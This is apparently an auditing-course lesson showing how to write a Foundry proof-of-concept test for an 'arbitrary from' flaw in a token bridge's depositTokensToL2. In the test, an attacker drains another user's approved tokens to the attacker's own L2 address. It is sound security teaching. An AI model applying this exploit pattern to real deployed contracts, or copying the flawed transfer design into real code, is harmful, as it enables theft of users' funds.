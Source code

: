 ```yaml
---
title: Exploit - Arbitrary From - PoC
---
```


_Follow along with the video lesson:_

---

### Exploit - Arbitrary From - PoC

Now that we've identified an exploit in the use of an `arbitrary from` in `depositTokensToL2`, let's write a Proof of Code to demonstrate the issue. We can leverage the existing test suite to write our tests.

Navigate to `L1TokenBridge.t.sol`.

This test suite has a decent setup we can leverage, so our user (Alice) is configured with funds already and a vault etc has been prepped for us. Our test should just need to start with Alice, innocently approving the tokens she wants to move to L2.

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();
}
```

Now's time for Bob. We're going to set the amountToSteal to Alice's token.balanceOf and create a new attacker user to represent Bob in the transaction. We then prank the attacker.

```js
uint256 amountToSteal = token.balanceOf(user);
address attacker = makeAddr("attacker");
vm.prank(attacker);
```

From here, the order in which we do things in quite important. We know when `depositTokensToL2` is called that an event is emitted and at the root of this vulnerability is that this event is going to be populated with malicious data - Bob's L2 address! In order to detect an event in Foundry's test framework we can use `vm.expectEmit`.

By setting `vm.expectEmit`, _then_ emitting what we expect the function to emit, **_then_** calling that function, the test suite will compare our expectations to what is actually emitted by the function.

```js
vm.expectEmit(address(tokenBridge));
emit Deposit(user, attacker, amountToSteal);
tokenBridge.depositTokensToL2(user, attacker, amountToSteal);
```

And finally, we can close our test off with some assertions. We can show that Bob's transaction left Alice with 0 tokens, and that those tokens are in the vault, waiting to be minting on L2 at the emitted L2 address (Bob's!)

```js
assertEq(token.balanceOf(user), 0);
assertEq(token.balanceOf(address(vault)), amountToSteal);
vm.stopPrank();
```

<details>
<summary>testCanMoveApprovedTokensOfOtherUsers</summary>

```js
function testCanMoveApprovedTokensOfOtherUsers() public {
    // poor Alice approving
    vm.prank(user);
    token.approve(address(tokenBridge), type(uint256).max);
    vm.stopPrank();

    uint256 amountToSteal = token.balanceOf(user);
    address attacker = makeAddr("attacker");
    vm.prank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(user, attacker, amountToSteal);
    tokenBridge.depositTokensToL2(user, attacker, amountToSteal);

    assertEq(token.balanceOf(user), 0);
    assertEq(token.balanceOf(address(vault)), amountToSteal);
    vm.stopPrank();
}
```

</details>


Now, we can run this test.

```bash
forge test --mt testCanMoveApprovedTokensOfOtherUsers -vvv
```

![arbitrary-poc1](/security-section-7/20-arbitrary-poc/arbitrary-poc1.png)

### Wrap Up

Boom! A proof of code demonstrating that anyone can call this function on someone elses approved tokens, stealing them on L2.

Our first `High`, we found it pretty quick and `Slither` was a huge help, thanks `Slither`!

Let's keep going, `Slither` had another red detector in that output... See you in the next lesson!
